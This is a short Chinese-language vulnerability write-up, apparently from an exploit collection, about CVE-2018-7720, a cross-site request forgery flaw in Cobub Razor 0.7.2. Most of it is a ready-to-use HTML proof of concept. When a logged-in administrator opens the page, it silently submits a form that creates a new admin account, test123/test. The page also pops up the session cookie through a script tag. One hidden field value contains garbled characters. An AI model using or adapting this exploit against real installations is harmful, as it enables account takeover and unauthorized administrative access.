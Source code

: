 ```yaml
---
title: "（CVE-2018-7720）Cobub Razor 0.7.2 存在跨站请求伪造漏洞"
id: zhfly2847
---
```


# （CVE-2018-7720）Cobub Razor 0.7.2 存在跨站请求伪造漏洞

## 一、漏洞简介

Cobub Razor 0.7.2存在跨站请求伪造漏洞，管理员登陆后访问特定页面可增加管理员账号。保存如下利用代码为html页面，打开页面将增加test123/test的管理员账号。

## 二、漏洞影响

Cobub Razor 0.7.2

## 三、复现过程

### POC

```
<body>
  <script>alert(document.cookie)</script>
    <form action="http://0-sec.org/index.php?/user/createNewUser/" method="POST">
      <input type="hidden" name="username" value="test123" />
      <input type="hidden" name="email" value="test&#64;test123&#46;test" />
      <input type="hidden" name="password" value="test" />
      <input type="hidden" name="confirm&#95;password" value="test" />
      <input type="hidden" name="userrole" value="3" />
      <input type="hidden" name="user&#47;ccreateNewUser" value="�&#136;&#155;�&#187;�" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html> 
```